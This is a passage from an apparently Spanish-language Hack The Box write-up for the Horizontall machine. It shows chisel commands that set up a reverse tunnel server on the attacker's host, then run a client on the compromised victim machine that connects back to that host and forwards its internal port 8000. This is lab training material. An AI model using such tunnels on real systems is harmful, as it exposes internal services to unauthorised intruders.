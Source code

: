 ```bash
./chisel server --reverse -p 1234
```

![Hackforce-2022-12-12-02-55-21.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-02-55-21.png)

Ahora ejecutamos el chisel en la maquina victima para hacer el port forwarding.

```bash
./chisel client 10.10.14.7:1234 R:8000:127.0.0.1:8000
```

![Hackforce-2022-12-12-03-04-25.png](/assets/images/htb-writeup-horizontall/Hackforce-2022-12-12-03-04-25.png)
